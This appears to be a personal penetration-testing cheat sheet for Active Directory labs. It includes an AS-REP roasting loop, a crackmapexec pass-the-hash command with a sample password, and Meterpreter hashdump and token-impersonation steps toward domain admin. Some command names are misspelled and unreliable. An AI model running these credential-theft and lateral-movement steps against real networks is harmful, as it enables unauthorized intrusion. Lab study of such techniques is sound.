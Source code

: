 # Tools

## Enumeration
### Recognizing Domain Controller
- 137 open
- 3268 and 3269 open
- LDAP: 389 and 636
- [[rpcclient]]

#### Try to get some user hashes
`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

## ldapsearch
- nmapautomator.py provides command
- `-x -h "<domain>" -s base` | tee somefile

## Crackmapexec
 - Pass the hash / smb attack
 - Use with cracked password to find where you have access to
 - Can be used with hashes too
`crackmapexec smb 192.168.148.0/24 -u Administrator -p 'P@$$w0rd' -d MARVEL`

## PsExec
- msfconsole
- used to interact with host you have creds for

## Meterpreter
- Migrate into process
- hashdump only works in x64, like many other things

### Incognito
- `load incofnito`
- `token_list`
- `impoersonate_token MARVEL\Administrator` -> token exists til reboot
- Path to domain admin
- `rev2selv` -> get back

### Migrate
IMPORTANT: Use to migrate into process to get x64 shell

